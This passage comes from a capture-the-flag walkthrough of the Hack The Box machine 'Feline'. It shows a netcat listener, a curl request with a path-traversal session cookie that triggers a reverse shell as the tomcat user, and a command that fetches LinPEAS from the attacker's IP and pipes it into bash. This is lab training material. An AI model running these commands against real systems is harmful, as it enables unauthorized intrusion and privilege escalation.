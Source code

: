 ![](/assets/images/htb-feline/12_feline_get.session_download.png)

Now we need to start a Netcat listener on port 443.

``` bash
nc -lvnp 443
```

And finally we can run the following curl command to send a request, passing the run.session as the session ID.

``` bash
curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JSESSIONID=../../../opt/samples/uploads/run'
```

Once again, do not be alarmed if you receive and error. You can confirm this worked by seeing that you should now have a reverse shell as the `tomcat` user.

![](/assets/images/htb-feline/13_feline_user_flag.png)

Awesome! We now have a shell as the tomcat user, who has access to the `user.txt` found at `/home/tomcat/user.txt`. Now it is time to look for a path to privilege escalation.

## Finding a Path to Escalation of Privilege
As a typical EoP investigation, we will run the [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) script.

Download the LinPEAS script and move it to your working directory. After you have moved it, start the Python web server again, using the same command from above. You can then curl for it and just pipe it directly into bash with the following command.

``` bash
curl http://<YOUR TUNNEL IP>/linpeas.sh | bash
```

 As expected, considering the Hard rating of this machine, there are not a bunch of things jumping out in the results of this script. One thing that it does show us is that there are a number of ports running internally. 
